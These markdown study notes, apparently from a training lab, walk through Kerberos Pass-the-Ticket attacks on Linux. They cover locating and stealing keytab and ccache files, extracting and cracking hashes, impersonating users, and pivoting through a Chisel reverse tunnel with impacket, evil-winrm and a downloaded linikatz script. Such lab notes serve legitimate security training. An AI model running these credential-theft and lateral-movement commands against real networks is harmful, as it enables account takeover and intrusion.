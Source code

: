 # Pass the Ticket Linux

- [Keytab](https://kb.iu.edu/d/aumh) files
- [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html)

#### Linux auth via port forward

```bash
ssh david@example.com@10.129.204.23 -p 2222

# Check domain/kerberos information
realm list

# If unavailable check for sssd or winbind
ps -ef | grep -i "winbind\|sssd"
```

## Finding KeyTab files

- [kinit](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html) allows interaction with Kerberos
- Ticket is represented as a keytab file located by default at `/etc/krb5.keytab`

```bash
# Using find - Mus have r/w priv
find / -name *keytab* -ls 2>/dev/null

# Check crontab for kinit if keys have been renamed
crontab -l
```

### Finding ccache files

- credential cache or [ccache](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html)
- Remain valid while the users session lasts
- File path is the `KRB5CCNAME` environment variable
- As root or priv, impersonate a user using their `ccache` file while it is still valid

```bash
# Check file path
env | grep -i krb5
```

### Abusing KeyTab files - Shared folders

Impersonate a user using `kinit`.

```bash
# Confirm ticket being used
klist

# Impersate user Carlos
klist -k -t /opt/specialfiles/carlos.keytab

# Connect to smb share as Carlos
smbclient //dc01/carlos -k -c ls
```

> To keep the ticket from the current session, before importing the  keytab, save a copy of the ccache file present in the environment  variable `KRB5CCNAME`.

---

## KeyTab Extract - Secrets

Abuse Kerberos and extract secrets from keytab file.

### Extracting KeyTab hashes with [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)

- use John/Hashcat or [CrackStation](https://crackstation.net/)

The script will extract information such as the realm, Service Principal, Encryption Type, and Hashes.

```bash
# Get hashes
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab

# Crack with your flavour and login
su - carlos@example.com

# Attempt lat movement
klists
contab -l

# Find .kt file and crack
python3 /opt/keytabextract.py /home/carlos@example.com/.scripts/svc_workstations.kt

```

- Check crontab and klists again to attempt lateral movement; srv accouts or user with sudo priv

> With the NTLM hash, we can perform a Pass the Hash attack. With the  AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt  to crack the hashes to obtain the plaintext password.

## Abusing KeyTab ccache

Once we have read permission to the ccache in `/tmp` with sudo permission we can abuse

```bash
# Privesc to root
ssh svc_workstations@example.com@10.129.204.23 -p 2222
sudo -l
sudo su; whoami

#

# Looking for ccache files
ls -la /tmp

# Identifying group membership and look for admins
id julio@example.com
```

### Importing the ccache file into our current session

To use a ccache file, copy the ccache file and assign the file path to the `KRB5CCNAME` variable.

```bash
# Check and export
klist
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133

# Verify and ls machine
klist
smbclient //dc01/C$ -k -c ls -no-pass
```

> klist displays the ticket information. We must consider the values  "valid starting" and "expires." If the expiration date has passed, the  ticket will not work. `ccache files` are temporary. They may change or expire if the user no longer uses them or during login and logout operations.

---

## Using Linux attack tools with Kerberos

To use Kerberos, we need to proxy our traffic via `MS01` with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.

### [Chisel](https://github.com/jpillora/chisel)

#### Host file and Proxychains

```bash
cat /etc/hosts

# Host addresses
172.16.1.10 example.com   inlanefreight   dc01.example.com  dc01
172.16.1.5  ms01.example.com  ms01

cat /etc/proxychains.conf
[ProxyList]
socks5 127.0.0.1 1080
```

#### Download Chisel to attack box

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse
```

#### Connect to RDP and execute chisel

```bash
xfreerdp /v:10.129.204.23 /u:david /d:example.com /p:Password2 /dynamic-resolution
```

```cmd
# Client IP is attack box
chisel.exe client 10.10.14.33:8080 R:socks
```

Transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file. See 02_Access/File-Transfers.

```bash
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket

To use the Kerberos ticket, specify our target machine name (not the IP address) and use the option `-k`. If prompted for a password, include the option `-no-pass`.

```bash
proxychains impacket-wmiexec dc01 -k
```

### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

Install the Kerberos package used for network authentication `krb5-user`. Will prompt for domain and computer name. If installed change the configuration file `/etc/krb5.conf`.

```bash
# Install package
sudo apt-get install krb5-user -y

# Launch
proxychains evil-winrm -i dc01 -r example.com
```

### [Linikatz](https://github.com/CiscoCXSecurity/linikatz) - Move lateraly

> Bringing Mimikatz et al to UNIX". In addition to the main linikatz.sh  script, this also includes auditd policies, John the Ripper rules,  Metasploit post-exploitation modules and fuzzers. 

```bash
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
./linikatz.sh

# Find compute keytab file with access to other systems
./linikatz

# Initialize
kinit LINUX01$ -k -t /path/to/keytab

# Get whatever
smbclient //dc01/linux01 -k -c 'get /flag.txt /root/flag.txt'
```



